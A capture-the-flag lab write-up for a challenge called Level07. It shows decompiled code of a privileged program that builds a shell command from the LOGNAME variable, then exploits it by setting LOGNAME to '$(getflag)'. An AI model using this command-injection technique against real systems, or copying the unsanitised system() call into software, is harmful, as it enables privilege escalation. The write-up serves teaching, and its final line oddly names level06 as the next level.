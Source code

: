 # Level07

[FRENCH version](README.md)

## How to retrieve the flag

By decompiling level07, here is its source code:

```
void main(void)
{
    undefined4 uVar1;
    undefined4 uStack28;
    undefined4 uStack24;
    undefined4 uStack20;
    
    uStack24 = getegid();
    uStack20 = getegid();
    setresgid(uStack24, uStack24, uStack24);
    setresuid(uStack20, uStack20, uStack20);
    uStack28 = 0;
    uVar1 = getenv("LOGNAME");
    asprintf(&uStack28, "/bin/echo %s ", uVar1);
    system(uStack28);
    return;
}
```

You can see that the program retrieves the content of the LOGNAME environment variable and displays it.

We cannot use a symbolic link here because echo is called directly with its absolute path.

You just have to use a sub-shell

```
export LOGNAME='$(getflag)'
/level07
```

## The flag

The flag read is the one that can be used to connect to level06.